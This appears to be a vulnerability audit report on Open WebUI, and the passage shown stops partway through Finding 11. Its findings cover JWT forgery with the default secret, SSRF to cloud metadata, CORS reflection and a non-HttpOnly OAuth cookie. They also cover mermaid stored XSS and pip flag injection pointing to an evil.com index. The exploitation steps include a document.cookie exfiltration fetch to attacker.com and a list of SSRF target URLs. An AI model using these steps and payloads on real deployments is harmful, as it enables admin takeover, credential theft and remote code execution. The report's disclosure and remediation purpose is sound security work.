

# Open WebUI Security Audit Report

**Date:** 2026-04-22  
**Auditor:** AutoFyn Security  
**Product:** Open WebUI (ghcr.io/open-webui/open-webui)  
**Commit tested:** main branch (post-f162d4de)  
**Severity scale:** Critical / High / Medium / Low / Informational

---

## Executive Summary

Open WebUI ships with a hardcoded JWT signing secret (`t0p-s3cr3t`) that is used
as the default when the `WEBUI_SECRET_KEY` environment variable is not set. Because
no first-run secret generation occurs, any deployment that does not explicitly set
this variable is immediately vulnerable to **full administrative compromise with no
prior credentials**.

An unauthenticated attacker can:

1. Sign up a free user account (the signup endpoint is public by default).
2. Forge a valid admin-level JWT using the known default secret.
3. Use that JWT to exfiltrate all OpenAI API keys, enumerate all users, and
   download the entire SQLite database.
4. Hijack the system webhook to exfiltrate all future signup/signin events to an
   attacker-controlled server, including internal AWS/GCP/Azure metadata services.

The attack chain requires zero admin negligence and exploits only the default
configuration.

This audit round also identified **three additional findings** (Findings 6–8) that
affect **all default deployments, including Docker** (unlike Finding 1):

- **Finding 6** — CORS wildcard origin reflection with credentials enables any
  website holding a stolen token to make authenticated cross-origin API calls and
  read the responses.
- **Finding 7** — Token revocation is a no-op without Redis (the default); stolen
  tokens persist for their full JWT lifetime even after the victim logs out.
- **Finding 8** — OAuth JWT cookies are set with `httponly=False`, allowing any
  XSS on the domain to steal the token via `document.cookie`.

This audit round further identified **two critical findings** (Findings 9–10) that
enable **remote code execution on the server**:

- **Finding 9** — Stored XSS via mermaid diagram rendering in FilePreview. The
  mermaid library is initialized with `securityLevel: 'loose'`, and the rendered
  SVG is injected via `wrapper.innerHTML = svg` without DOMPurify sanitization.
  Any uploaded `.md` file with a mermaid code block containing HTML payloads (e.g.,
  ``) executes JavaScript when previewed. This completes
  the Cross-Origin Attack Chain from Findings 6/7/8 with a confirmed XSS vector.
- **Finding 10** — Supply chain RCE via pip flag injection in tool/function
  requirements. The `install_frontmatter_requirements()` function splits the
  requirements string by comma and passes each token directly to
  `subprocess.check_call([pip, install, ...])` without filtering flags. An attacker
  injects `--extra-index-url` and `--trusted-host` to redirect pip to a malicious
  package index. Combined with Finding 1 (JWT forgery), this enables
  unauthenticated-to-root RCE.

This audit round further identified **two additional critical findings** (Findings 11–12)
expanding the attack surface:

- **Finding 11** — SSRF via URL filter bypass in the RAG web fetch pipeline. The
  `is_string_allowed()` function uses `str.endswith()` against the full URL string
  rather than the parsed hostname, trivially bypassed by any path suffix. More
  critically, `requests.get()` in `get_content_from_url()` follows HTTP redirects by
  default — an attacker-controlled server can 302-redirect to cloud metadata (IMDS)
  endpoints after URL validation passes. Any verified user can exploit the `/process/web`
  endpoint. Impact: cloud IAM credential theft, internal service enumeration.
- **Finding 12** — Arbitrary code execution via tool creation with `workspace.tools`
  permission. `exec(content, module.__dict__)` at `plugin.py:231` runs all module-level
  Python submitted as a tool's content immediately on creation. Tool creation requires
  only `workspace.tools` permission, not admin role. An admin granting this permission
  (e.g., to allow LLM tool integrations) unknowingly grants full server-side RCE.
  The Dockerfile defaults to `UID=0/GID=0`, so code runs as root. Chained with
  Finding 1 (JWT forgery), this is exploitable from zero credentials.

## Deployment-Specific Impact

**Docker deployments (ghcr.io/open-webui/open-webui):** The official Docker image
includes a `start.sh` script that generates a random secret key when
`WEBUI_SECRET_KEY` is empty or unset. This means default Docker deployments are
**not vulnerable** to Finding 1 (JWT forgery via known default secret), because the
secret is randomized at container startup.

**pip-install deployments:** When Open WebUI is installed via pip and run directly
(e.g., `open-webui serve`), there is no `start.sh` wrapper. The hardcoded default
`t0p-s3cr3t` from `env.py:566` is used as-is. These deployments **are vulnerable**
to the full attack chain described in this report.

**Explicit WEBUI_SECRET_KEY=t0p-s3cr3t:** Any deployment (Docker or pip) where the
operator explicitly sets `WEBUI_SECRET_KEY` to the well-known default value is also
vulnerable. Our PoC testing was performed against a Docker container with
`-e WEBUI_SECRET_KEY=t0p-s3cr3t` to simulate this scenario.

**Findings 6, 7, and 8 — universal impact:** Unlike Finding 1, Findings 6–8 do
**not** require knowledge of the JWT secret and are **not** mitigated by Docker's
`start.sh` key generation. They affect all default deployments — Docker, pip-install,
and any cloud-hosted instance — because they stem from CORS configuration defaults,
missing Redis infrastructure for token revocation, and an explicit `httponly=False`
in the OAuth callback code path.

**Test evidence:** All exploit outputs are saved in `autofyn_audit/evidence/`.

---

## Scope

| In Scope | Out of Scope |
|---|---|
| Default-config vulnerabilities | Admin-configured misconfigurations |
| JWT forgery via default secret | Social engineering |
| Admin data exfiltration (consequence of #1) | Physical access |
| SSRF via webhook (post-exploitation) | |
| User enumeration by verified users | |
| Admin details exposed to pending users | |
| CORS wildcard origin reflection (Finding 6) | |
| Token revocation no-op without Redis (Finding 7) | |
| OAuth JWT cookie without HttpOnly (Finding 8) | |
| Stored XSS via mermaid diagram rendering (Finding 9) | |
| Supply chain RCE via pip flag injection (Finding 10) | |
| SSRF via RAG web fetch URL filter bypass (Finding 11) | |
| Non-admin RCE via tool exec() with workspace.tools (Finding 12) | |
| Tools/Functions exec() with workspace.tools permission | |

**Note on exec() scope:** The original "Out of Scope: Tools/Functions exec() (intended)" entry
referred to admin-only tool creation where exec() is an acknowledged design choice. Finding 12
addresses a distinct issue: non-admin users granted `workspace.tools` permission can trigger
exec() with arbitrary Python. An admin granting this permission to enable LLM tool integrations
does not intend to grant full server-side OS code execution. This is therefore in scope as a
permission-escalation-to-RCE vulnerability, distinct from the intended admin-only functionality.

---

## Methodology

- Static source code review of the Python FastAPI backend
- Dynamic PoC testing against a Docker container with explicit
  `WEBUI_SECRET_KEY=t0p-s3cr3t` (simulating pip-install default behavior)
- All PoC scripts use only standard HTTP requests and PyJWT — no framework
  exploitation, no memory corruption
- Dynamic PoC testing confirmed against Docker container with explicit
  `WEBUI_SECRET_KEY=t0p-s3cr3t` (simulating pip-install default behavior)
- All exploit scripts (JWT forgery, admin data theft, SSRF webhook, full chain,
  mermaid XSS, pip injection, SSRF RAG, tool exec RCE) executed against Open WebUI v0.9.1

---

## Findings

---

### Finding 1: JWT Forgery via Hardcoded Default Secret (CRITICAL)

**CVSS 3.1:** 9.8 — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

**Description:**

Open WebUI uses `t0p-s3cr3t` as the default JWT signing secret when the
`WEBUI_SECRET_KEY` environment variable is absent. The secret is set at module
import time and never regenerated. Any attacker who knows this public default can
forge a JWT for any user ID in the database.

**Note:** The official Docker image mitigates this by generating a random key in
`start.sh` when `WEBUI_SECRET_KEY` is empty. However, pip-install deployments and
any deployment with `WEBUI_SECRET_KEY` left at the default are fully vulnerable.

**Affected Code:**

```
backend/open_webui/env.py lines 564-567
    WEBUI_SECRET_KEY = os.environ.get(
        'WEBUI_SECRET_KEY',
        os.environ.get('WEBUI_JWT_SECRET_KEY', 't0p-s3cr3t'),
    )

backend/open_webui/utils/auth.py line 50
    SESSION_SECRET = WEBUI_SECRET_KEY

backend/open_webui/utils/auth.py lines 200-211
    def create_token(data: dict, expires_delta=None) -> str:
        ...
        encoded_jwt = jwt.encode(payload, SESSION_SECRET, algorithm=ALGORITHM)
```

**Constraint:** The forged JWT's `id` claim must match a real user ID in the
database (`auth.py:356 Users.get_user_by_id(data['id'])`). An attacker
satisfies this by signing up a free account first, which also discloses the
admin email via `GET /api/v1/auths/admin/details`.

**Exploitation Steps:**

```
1.  GET  /api/version                           # confirm target is Open WebUI
2.  POST /api/v1/auths/signup                   # create attacker account
3.  GET  /api/v1/auths/admin/details            # leak admin email (any authed user)
4.  GET  /api/v1/users/search?query=<email>     # find admin user ID (any verified user)
5.  Forge JWT: jwt.encode({'id': admin_id, 'jti': uuid4(), 'iat': now},
                           't0p-s3cr3t', algorithm='HS256')
6.  GET  /openai/config   Authorization: Bearer <forged>  # confirms admin access
```

**PoC:** `autofyn_audit/exploit_jwt_forgery.py`

**Impact:**

Complete administrative control over the Open WebUI instance. All subsequent
findings are direct consequences of this one.

**Remediation:**

Generate a cryptographically random secret on first startup if `WEBUI_SECRET_KEY`
is not set, and persist it to disk (e.g., `data/.secret_key`). Refuse to start if
the secret cannot be persisted (prevents silent reuse of the default across
restarts).

```python
# Suggested first-run generation:
import secrets, pathlib
key_file = pathlib.Path(DATA_DIR) / '.secret_key'
if not key_file.exists():
    key_file.write_text(secrets.token_hex(32))
WEBUI_SECRET_KEY = os.environ.get('WEBUI_SECRET_KEY') or key_file.read_text().strip()
```

---

### Finding 2: Admin API Key Exposure (HIGH)

**CVSS 3.1:** 7.5 — `AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N` (standalone: PR:H)  
*(Chained with Finding 1: effective PR:N — no auth needed to reach admin access)*

**Description:**

`GET /openai/config` returns the complete list of OpenAI API keys in cleartext.
No masking or partial redaction is applied. Combined with Finding 1, an attacker
obtains all configured API keys within seconds.

**Affected Code:**

```
backend/open_webui/routers/openai.py lines 236-243
    @router.get('/config')
    async def get_config(request: Request, user=Depends(get_admin_user)):
        return {
            ...
            'OPENAI_API_KEYS': request.app.state.config.OPENAI_API_KEYS,
            ...
        }
```

**PoC:** `autofyn_audit/exploit_admin_data_theft.py`

**Impact:**

Full exposure of all configured OpenAI API keys, enabling attacker to incur
charges, access OpenAI usage data, or use keys for secondary attacks.

**Remediation:**

Mask API keys in GET responses (return only last 4 characters). Use a separate
endpoint or admin confirmation flow to reveal full keys. Consider encrypting keys
at rest using a key derived from `WEBUI_SECRET_KEY`.

---

### Finding 3: Database Export Enables Full Data Theft (HIGH)

**CVSS 3.1:** 7.5 — `AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:N/A:N` (standalone: PR:H)  
*(Chained with Finding 1: effective PR:N — no auth needed to reach admin access)*

**Description:**

`GET /api/v1/utils/db/download` streams the entire SQLite database file to the
caller. `ENABLE_ADMIN_EXPORT` defaults to `True`. The database contains all
users (with hashed passwords), chat histories, API keys, model configurations,
and all other application data.

**Affected Code:**

```
backend/open_webui/routers/utils.py lines 105-123
    @router.get('/db/download')
    async def download_db(user=Depends(get_admin_user)):
        if not ENABLE_ADMIN_EXPORT:
            raise HTTPException(...)
        return FileResponse(engine.url.database, ...)

backend/open_webui/config.py line 1689
    ENABLE_ADMIN_EXPORT = PersistentConfig('ENABLE_ADMIN_EXPORT', ..., True)
```

**PoC:** `autofyn_audit/exploit_admin_data_theft.py`

**Impact:**

Complete exfiltration of all application data. Bcrypt hashes can be subjected to
offline cracking. Chat histories and private information are fully exposed.

**Remediation:**

Default `ENABLE_ADMIN_EXPORT` to `False`. Add a secondary confirmation step
(e.g., password re-entry) before allowing database export. Rate-limit or audit-log
all export requests.

---

### Finding 4: SSRF via Unvalidated Webhook URLs (MEDIUM-HIGH)

**CVSS 3.1:** 8.1 — `AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:L/A:N`  
*(Scope Change: attacker pivots to internal network/cloud metadata)*

**Description:**

The system webhook URL (set via `POST /api/webhook`) and per-user webhook URLs
accept arbitrary values with zero validation. The webhook is triggered on every
signup and signin event, causing the server to make an outbound HTTP POST to the
configured URL. An attacker with admin access (obtained via Finding 1) can point
this at cloud metadata endpoints, internal services, or attacker infrastructure.

**Affected Code:**

```
backend/open_webui/main.py lines 2337-2352
    class UrlForm(BaseModel):
        url: str     # <-- no validator, accepts any string

    @app.post('/api/webhook')
    async def update_webhook_url(form_data: UrlForm, user=Depends(get_admin_user)):
        app.state.config.WEBHOOK_URL = form_data.url
        ...

backend/open_webui/utils/webhook.py lines 53-56
    async with aiohttp.ClientSession(...) as session:
        async with session.post(url, json=payload, ssl=...) as r:
            ...                # <-- no URL validation before request

backend/open_webui/routers/auths.py lines 703-713
    if request.app.state.config.WEBHOOK_URL:
        await post_webhook(..., request.app.state.config.WEBHOOK_URL, ...)
```

**Exploitation Steps (post-Finding 1):**

```
POST /api/webhook   Authorization: Bearer <forged-admin-jwt>
Body: {"url": "http://169.254.169.254/latest/meta-data/"}

# Now trigger the webhook by signing up any new user:
POST /api/v1/auths/signup  {"name": "trigger", "email": "t@t.local", ...}
# -> Server POSTs to 169.254.169.254, returning AWS instance metadata
```

**Dangerous Payload URLs:**

| Target | URL |
|---|---|
| AWS Instance Metadata | `http://169.254.169.254/latest/meta-data/` |
| AWS IMDSv2 Token | `http://169.254.169.254/latest/api/token` |
| GCP Metadata | `http://metadata.google.internal/computeMetadata/v1/` |
| Azure IMDS | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` |
| Redis | `http://localhost:6379/` |
| Ollama | `http://localhost:11434/api/tags` |
| Self-reference | `http://host.docker.internal:8080/api/v1/users/` |

**PoC:** `autofyn_audit/exploit_ssrf_webhook.py`

**Impact:**

Server-side request forgery enabling access to cloud instance metadata (leading to
IAM credential theft on AWS/GCP/Azure), internal service enumeration, and exfiltration
of sensitive user data (email, id, role) on every authentication event.

**Remediation:**

1. Validate webhook URLs against an allowlist of approved hostnames, or reject
   private IP ranges (RFC 1918, link-local 169.254.x.x, loopback).
2. Add a Pydantic validator to `UrlForm` that checks the resolved IP is not private.
3. Consider using a DNS rebinding-resistant HTTP client that re-checks the resolved
   address before connecting.

```python
from pydantic import AnyHttpUrl, validator
import ipaddress, socket

class UrlForm(BaseModel):
    url: AnyHttpUrl

    @validator('url')
    def reject_private_ips(cls, v):
        host = str(v).split('/')[2].split(':')[0]
        try:
            ip = ipaddress.ip_address(socket.gethostbyname(host))
            if ip.is_private or ip.is_link_local or ip.is_loopback:
                raise ValueError('Private/internal URLs are not allowed')
        except socket.gaierror:
            raise ValueError('Cannot resolve webhook URL hostname')
        return v
```

---

### Finding 5: User Enumeration via Search Endpoint (MEDIUM)

**CVSS 3.1:** 5.3 — `AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N`

**Description:**

`GET /api/v1/users/search` is accessible to any verified (non-pending) user. It
returns full user objects including `id`, `email`, `name`, and `role` for all users
matching the query. With an empty query it pages through all users. This allows any
registered user to enumerate the entire user base.

Additionally, `GET /api/v1/auths/admin/details` is accessible to **any
authenticated user** (including pending users), disclosing the admin's name and
email address.

**Affected Code:**

```
backend/open_webui/routers/users.py line 115-137
    @router.get('/search', response_model=UserInfoListResponse)
    async def search_users(
        ...
        user=Depends(get_verified_user),   # <-- any non-pending user
        ...
    ):

backend/open_webui/routers/auths.py lines 922-947
    @router.get('/admin/details')
    async def get_admin_details(
        request: Request,
        user=Depends(get_current_user),   # <-- any authenticated user, including pending
        ...
    ):
```

**PoC:** Used as a step in `exploit_jwt_forgery.py` and `exploit_chain.py`.

**Impact:**

Enables targeted phishing, credential stuffing preparation, and is a prerequisite
step for Finding 1 (admin ID discovery). The admin email disclosure applies to
pending users who have not yet been approved.

**Remediation:**

1. Restrict `/users/search` to admin role only, or filter returned fields (omit
   `email`, `id` for non-admin callers).
2. Restrict `/api/v1/auths/admin/details` to verified users at minimum; consider
   requiring admin role for the `email` field.

---

### Finding 6: CORS Wildcard Origin Reflection with Credentials (HIGH)

**CVSS 3.1:** 8.1 — `AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:N`

**Description:**

`CORS_ALLOW_ORIGIN` defaults to `'*'` (`config.py:1756`). When `'*'` is used,
Starlette's `CORSMiddleware` is configured with `allow_credentials=True`
(`main.py:1390-1396`). Per the Starlette implementation, when `allow_all_origins=True`
and `allow_credentials=True`, the middleware reflects the request `Origin` header
value back as `Access-Control-Allow-Origin` (rather than sending the literal `*`),
paired with `Access-Control-Allow-Credentials: true`.

Once a token is obtained by any means, any website can use it to make authenticated
cross-origin API calls and read the responses — because the browser sees a matching
`Access-Control-Allow-Origin` and `Access-Control-Allow-Credentials: true` and
permits the cross-origin read.

**Note on SameSite=lax:** The default `SameSite=lax` cookie setting prevents
cross-origin `fetch()` with `credentials: 'include'` from automatically sending the
`token` cookie. This finding is therefore about token *reuse* from a foreign origin
(once a token is obtained by any other means, e.g., via Finding 8), not direct cookie
theft via CORS alone.

**Affected Code:**

```
backend/open_webui/config.py line 1756
    CORS_ALLOW_ORIGIN = os.environ.get('CORS_ALLOW_ORIGIN', '*').split(';')

backend/open_webui/main.py lines 1390-1396
    app.add_middleware(
        CORSMiddleware,
        allow_origins=CORS_ALLOW_ORIGIN,   # ['*'] by default
        allow_credentials=True,            # hardcoded True
        allow_methods=['*'],
        allow_headers=['*'],               # includes 'authorization'
    )
```

**Exploitation Steps:**

```
1. Obtain a valid token by any means (e.g., XSS + Finding 8 for OAuth users,
   or directly if attacker has an account)
2. From attacker page on https://evil.example.com, call:
     fetch('https://target.com/api/v1/auths/', {
       headers: { 'Authorization': 'Bearer <token>' }
     }).then(r => r.json()).then(data => exfiltrate(data))
3. Verify response includes:
     Access-Control-Allow-Origin: https://evil.example.com
     Access-Control-Allow-Credentials: true
4. Browser allows the cross-origin read — attacker reads authenticated response
```

**PoC:** `autofyn_audit/exploit_cors_origin_reflection.py`

**Impact:**

Any website holding a stolen token can make authenticated cross-origin API calls and
read the full response body, including sensitive user data, chat history, and (with
admin token) API keys and user lists. The CORS reflection amplifies every other
token-theft vector in this audit.

**Remediation:**

1. Set `CORS_ALLOW_ORIGIN` to the specific production hostname(s) — never `'*'`.
2. If wildcard must be used, set `allow_credentials=False`.
3. Add a startup warning that fails loudly (not just logs) when both
   `allow_origins=['*']` and `allow_credentials=True` are configured together.

---

### Finding 7: Token Revocation No-Op Without Redis (HIGH)

**CVSS 3.1:** 7.5 — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:H/A:N`

**Description:**

`invalidate_token()` at `auth.py:254` and `is_valid_token()` at `auth.py:229` both
guard all revocation logic behind `if request.app.state.redis:`. When Redis is not
configured (the default for all Docker and pip-install deployments), these functions
return immediately without performing any revocation.

`GET /api/v1/auths/signout` calls `invalidate_token()`, but the call is a no-op.
The token remains valid for its full JWT lifetime after signout. `JWT_EXPIRES_IN`
defaults to 4 weeks (`4w`) but can be set to no-expiry.

This means a stolen token cannot be revoked by the victim logging out.

**Affected Code:**

```
backend/open_webui/utils/auth.py lines 229-251 (is_valid_token)
    if request.app.state.redis:
        # per-token revocation check via Redis
        ...
    return True       # <-- always True when redis is falsy

backend/open_webui/utils/auth.py lines 254-276 (invalidate_token)
    if request.app.state.redis:
        # store revoked jti in Redis
        ...
    # <-- silent no-op when redis is falsy

backend/open_webui/routers/auths.py lines 780-781
    if token:
        await invalidate_token(request, token)  # no-op without Redis
```

**Exploitation Steps:**

```
1. Obtain victim's token (e.g., via network interception or Finding 8)
2. Victim calls GET /api/v1/auths/signout — server returns 200 (appears to succeed)
3. Attacker sends: GET /api/v1/auths/
                   Authorization: Bearer <stolen-token>
   -> 200 OK — token is still valid
4. Attacker retains access until token's JWT exp claim is reached
```

**PoC:** `autofyn_audit/exploit_token_revocation_bypass.py`

**Impact:**

Stolen tokens cannot be invalidated by victim action. Combined with Finding 6 (CORS
origin reflection), an attacker using a stolen token from a foreign origin continues
to have access even after the victim logs out. If the victim is an admin, the attacker
retains admin-level access for up to 4 weeks (or the configured token lifetime).

**Remediation:**

1. Deploy Redis and configure it via `REDIS_URL`. This activates the existing
   per-token revocation logic that is already in the codebase.
2. If Redis cannot be deployed, implement a short-lived server-side revocation list
   (e.g., in-memory set or database table) as a fallback — do not silently skip
   revocation.
3. Reduce default `JWT_EXPIRES_IN` to a shorter window (e.g., 1 hour) to bound
   the window of exposure when revocation is not available.

---

### Finding 8: OAuth JWT Cookie Without HttpOnly (HIGH)

**CVSS 3.1:** 6.1 — `AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N` (standalone)  
*(Chained with XSS + Findings 6 & 7: effective severity HIGH)*

**Note: This is a code-review finding.** OAuth requires an external Identity Provider;
the PoC demonstrates the vulnerability via static code analysis and comparison with
the password-login code path. Dynamic confirmation of the OAuth cookie flag requires
a configured OAuth provider.

**Description:**

The OAuth callback handler at `oauth.py:1720-1727` sets the JWT cookie with
`httponly=False`. The comment says "Required for frontend access", but the password
login handler at `auths.py:127-134` uses `httponly=True` for the same cookie — this
is a direct inconsistency in the same codebase.

`httponly=False` means the `token` cookie is accessible via `document.cookie` in
JavaScript. Any XSS vulnerability on the Open WebUI domain (stored XSS in chat names,
model descriptions, etc.) can steal the JWT of OAuth-authenticated users. Password-
authenticated users are NOT affected by this specific finding.

**Affected Code:**

```
backend/open_webui/utils/oauth.py lines 1720-1727  [VULNERABLE — httponly=False]
    response.set_cookie(
        key='token',
        value=jwt_token,
        httponly=False,  # Required for frontend access
        samesite=WEBUI_AUTH_COOKIE_SAME_SITE,
        secure=WEBUI_AUTH_COOKIE_SECURE,
        ...
    )

backend/open_webui/routers/auths.py lines 127-134  [SAFE — httponly=True]
    response.set_cookie(
        key='token',
        value=token,
        httponly=True,
        samesite=WEBUI_AUTH_COOKIE_SAME_SITE,
        secure=WEBUI_AUTH_COOKIE_SECURE,
        ...
    )
```

**Exploitation Steps:**

```
1. Attacker identifies or injects an XSS payload on the Open WebUI domain
   (e.g., stored XSS in a chat title rendered in another user's session)
2. Victim with OAuth session visits the XSS page; payload executes:
     fetch('https://attacker.com/steal?t=' + document.cookie)
3. Attacker receives 'token=<jwt>' in the exfiltrated data
4. Attacker uses token from https://evil.example.com with Authorization header
   (Finding 6: CORS reflection allows cross-origin reads)
5. Victim logs out — token remains valid (Finding 7: revocation no-op)
```

**PoC:** `autofyn_audit/exploit_oauth_cookie_httponly.py`

**Impact:**

OAuth-authenticated users' JWT tokens are readable by any XSS payload on the domain.
The stolen token feeds directly into the CORS attack chain (Finding 6) and persists
after victim logout (Finding 7). This finding enables the full three-finding attack
chain described in the Cross-Origin Attack Chain section below.

**Remediation:**

1. Change `httponly=False` to `httponly=True` in `oauth.py:1723`.
2. If the frontend requires JavaScript access to the token (e.g., to read it from
   `document.cookie`), consider using a separate non-HttpOnly session indicator and
   keeping the actual JWT HttpOnly.
3. Audit all other `set_cookie()` calls for similar inconsistencies.

---

### Finding 9: Stored XSS via Mermaid Diagram Rendering (CRITICAL)

**CVSS 3.1:** 8.7 — `AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N`

*(Requires low privileges to upload a file; user interaction to preview it; scope change
because the XSS fires in the victim's browser context and reads the OAuth cookie.)*

**Note: This is a payload delivery confirmed + code-review finding for execution.**
The Python PoC confirms the payload is stored verbatim server-side and documents the
vulnerable code path. Browser-side execution requires manual verification (Python
cannot render the DOM).

**Description:**

Mermaid is initialized globally with `securityLevel: 'loose'` at `index.ts:1739`.
With this setting, mermaid allows arbitrary HTML inside diagram node labels. The
rendered SVG output can therefore contain ``, `<script>`, and event-handler
attributes supplied by the attacker.

`FilePreview.svelte:136-141` renders mermaid diagrams from uploaded `.md` files.
After calling `renderMermaidDiagram()`, it sets `wrapper.innerHTML = svg` directly —
with no DOMPurify call. This unsanitized `innerHTML` assignment executes any HTML
payload embedded in the SVG.

Any authenticated user can upload a `.md` file containing a mermaid code block with
an XSS payload. When any other user opens that file in the FileNav viewer, the XSS
fires.

**Affected Code:**

```
src/lib/utils/index.ts:1736-1740
    mermaid.initialize({
      startOnLoad: false,
      theme: ...,
      securityLevel: 'loose'   // <-- allows arbitrary HTML in diagram labels
    });

src/lib/components/chat/FileNav/FilePreview.svelte:136-141
    const svg = await renderMermaidDiagram(mermaidInstance, codeEl.textContent ?? '');
    if (svg) {
      const wrapper = document.createElement('div');
      wrapper.className = 'mermaid-diagram flex justify-center py-2';
      wrapper.innerHTML = svg;   // <-- UNSANITIZED innerHTML injection
      pre.replaceWith(wrapper);
    }
```

**Contrast with safe path:**

```
src/lib/components/chat/Messages/CodeBlock.svelte
    // Mermaid diagrams in chat messages route through SVGPanZoom.svelte:
    DOMPurify.sanitize(svg, { USE_PROFILES: { svg: true }, ADD_TAGS: ['foreignObject'] })
    // FilePreview does NOT use SVGPanZoom — it injects raw.
```

**Attack Payload:**

```markdown
# Security Audit Test


```

When this file is opened in the FileNav viewer, the XSS fires and exfiltrates
`document.cookie`. No CSP is set by default (`security_headers.py:62-68`).

**Chain Impact:**

```
XSS fires
  -> reads document.cookie (Finding 8: oauth.py:1723 httponly=False)
  -> stolen token reusable from evil.example.com (Finding 6: CORS reflection)
  -> token persists after victim logout (Finding 7: revocation no-op)
  -> if victim is admin: attacker gains admin access for up to 4 weeks
```

This finding provides the concrete XSS vector that completes the theoretical
cross-origin chain from Round 1.

**PoC:** `autofyn_audit/exploit_mermaid_xss.py`

**Remediation:**

1. Change `securityLevel: 'loose'` to `securityLevel: 'strict'` in `index.ts:1739`.
   This prevents mermaid from allowing HTML in diagram labels.
2. Add `DOMPurify.sanitize(svg)` before `wrapper.innerHTML = svg` in
   `FilePreview.svelte:140`, matching the pattern used in `SVGPanZoom.svelte`.
3. Deploy a default Content-Security-Policy header. Currently CSP is opt-in only via
   `CONTENT_SECURITY_POLICY` environment variable; no default value is set.

---

### Finding 10: Supply Chain RCE via Pip Flag Injection in Tool Requirements (CRITICAL)

**CVSS 3.1 (standalone, admin required):** 9.1 — `AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H`

**CVSS 3.1 (chained with Finding 1, unauthenticated):** 9.8 — `AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

**Description:**

`install_frontmatter_requirements()` at `plugin.py:383-401` splits the frontmatter
`requirements` field by comma and passes each token as a separate element in the
argv list to `subprocess.check_call([python, -m, pip, install, ...])`. No validation
rejects items starting with `-`.

An attacker injects `--extra-index-url, https://evil.com/simple/, --trusted-host,
evil.com` into the requirements field to redirect pip to a malicious package index.
The malicious package's `setup.py` (or `pyproject.toml` build hooks) runs arbitrary
code. The official Dockerfile defaults to `UID=0/GID=0` (root), so the injected
code runs with full root privileges.

Tool creation (`POST /api/v1/tools/create`) requires admin role by default. Combined
with Finding 1 (JWT forgery via default secret), this is exploitable by an
unauthenticated attacker against any pip-install deployment.

**Affected Code:**

```
backend/open_webui/utils/plugin.py:383-401
    def install_frontmatter_requirements(requirements: str):
        if not ENABLE_PIP_INSTALL_FRONTMATTER_REQUIREMENTS:
            return
        if requirements:
            req_list = [req.strip() for req in requirements.split(',')]
            # NO validation -- items starting with '--' are passed as pip flags
            subprocess.check_call(
                [sys.executable, '-m', 'pip', 'install'] + req_list
            )

backend/open_webui/utils/plugin.py:147-180
    # Frontmatter regex — captures full value verbatim, no allowlist:
    frontmatter_pattern = re.compile(r'^\s*([a-z_]+):\s*(.*)\s*$', re.IGNORECASE)

backend/open_webui/routers/tools.py:326-396
    @router.post('/create')
    async def create_new_tools(..., user=Depends(get_verified_user)):
        # calls load_tool_module_by_id(id, content=...) -> install_frontmatter_requirements
        ...

Dockerfile:23-24
    ARG UID=0
    ARG GID=0    # container runs as root by default
```

**Persistence:**

Once stored, the malicious tool's requirements re-install on every server restart via
`install_tool_and_function_dependencies()` (`plugin.py:407-433`), which is called at
startup (`main.py:658`). This provides a persistent backdoor that survives container
restarts and re-provisions automatically.

**PoC Payload:**

```python
"""
title: Malicious Tool
requirements: setuptools, --extra-index-url, https://evil.com/simple/, --trusted-host, evil.com, setuptools
"""
class Tools:
    pass
```

Results in:

```
python -m pip install setuptools --extra-index-url https://evil.com/simple/ --trusted-host evil.com setuptools
```

Pip fetches `setuptools` from `evil.com`; attacker-controlled `setup.py` runs as root.

**PoC:** `autofyn_audit/exploit_pip_injection.py`

**Remediation:**

1. Reject requirements items starting with `-` in `install_frontmatter_requirements()`:
   ```python
   req_list = [req.strip() for req in requirements.split(',')]
   for req in req_list:
       if req.startswith('-'):
           raise ValueError(f'Invalid requirement (flags not allowed): {req!r}')
   ```
2. Use `--require-hashes` with a lockfile approach, or restrict installs to a
   pre-approved package allowlist.
3. Run the container as non-root by default — override `ARG UID` and `ARG GID` in
   `Dockerfile` or document that operators must set these.
4. Add `--no-deps` to prevent transitive dependency attacks from otherwise-trusted
   packages.

---

### Finding 11: SSRF via URL Filter Bypass in RAG Web Fetch (HIGH)

**CVSS 3.1:** 8.5 — `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N`

*(Scope Change: attacker pivots to cloud metadata / internal network. PR:L: any verified user
can call `/process/web`. I:L: SSRF primarily enables read access to internal services.)*

**Description:**

The `is_string_allowed()` function at `misc.py:61,65` checks whether a URL is allowed by
applying `str.endswith()` against the **full URL string**, not the parsed hostname. The default
blocklist entries (`!169.254.169.254`, `!metadata.google.internal`, etc.) only match when the
URL literally ends with those strings. Any URL with a path suffix bypasses the filter — for
example, `http://169.254.169.254/latest/meta-data/` is not blocked because the URL ends with
`/meta-data/`, not `169.254.169.254`.

More critically, `requests.get(url, stream=True)` at `retrieval/utils.py:182` follows HTTP
redirects by default. `validate_url()` validates the original URL (attacker-controlled domain
resolves to a public IP — passes the IP check), then `requests.get()` follows a 302 redirect
to an internal endpoint (e.g., `http://169.254.169.254/`). The IP validation is never re-run
on the redirect target. This is the **primary exploitable vector in default configuration** —
it bypasses both the endsWith filter and the IP resolution check.

Note: `SafeWebBaseLoader._fetch()` already sets `allow_redirects=False` correctly — the
vulnerability is specifically in the `requests.get()` content-type sniff at
`retrieval/utils.py:182`, creating an inconsistency within the same codebase.

**Affected Code:**

```
backend/open_webui/utils/misc.py:61,65
    # BUG: endsWith checks full URL string, not parsed hostname
    if not any(s.endswith(allowed) for s in strings for allowed in allow_list):
        return False
    if any(s.endswith(blocked) for s in strings for blocked in block_list):
        return False

backend/open_webui/config.py:3118-3124
    DEFAULT_WEB_FETCH_FILTER_LIST = [
        '!169.254.169.254',        # only matches if URL ends exactly here
        '!metadata.google.internal',
        '!metadata.azure.com',
        '!100.100.100.200',
    ]

